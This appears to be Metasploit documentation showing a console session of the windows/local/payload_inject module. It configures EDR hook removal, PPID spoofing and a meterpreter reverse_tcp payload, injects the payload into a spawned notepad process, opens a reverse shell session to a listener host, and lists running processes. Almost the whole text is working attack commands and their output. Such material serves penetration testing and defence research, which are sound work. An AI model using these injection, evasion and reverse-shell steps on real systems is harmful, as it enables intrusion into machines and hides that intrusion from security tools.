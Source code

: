 ```
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Running module against DESKTOP-D1E425Q
[*] Spawned Notepad process 684
[*] Injecting payload into 684
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 684
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49676) at 2020-01-22 13:12:07 -0600

meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]                                                     
 4     0     System                                                               
 88    4     Registry                                                             
.
.
.
 684   7524  notepad.exe                  x64   1        DESKTOP-D1E425Q\msfuser  C:\Windows\System32\notepad.exe
.
.
.
 7524  3632  revtcpx64.exe                x64   1        DESKTOP-D1E425Q\msfuser  C:\Users\msfuser\Desktop\revtcpx64.exe
 7532  4772  chrome.exe                   x64   1        DESKTOP-D1E425Q\msfuser  C:\Program Files (x86)\Google\Chrome\Application\chrome.exe
 7876  780   WmiPrvSE.exe                                                         
 7904  780   WmiPrvSE.exe                                                         
 8000  584   svchost.exe                                                          
 8036  584   svchost.exe                                                          

```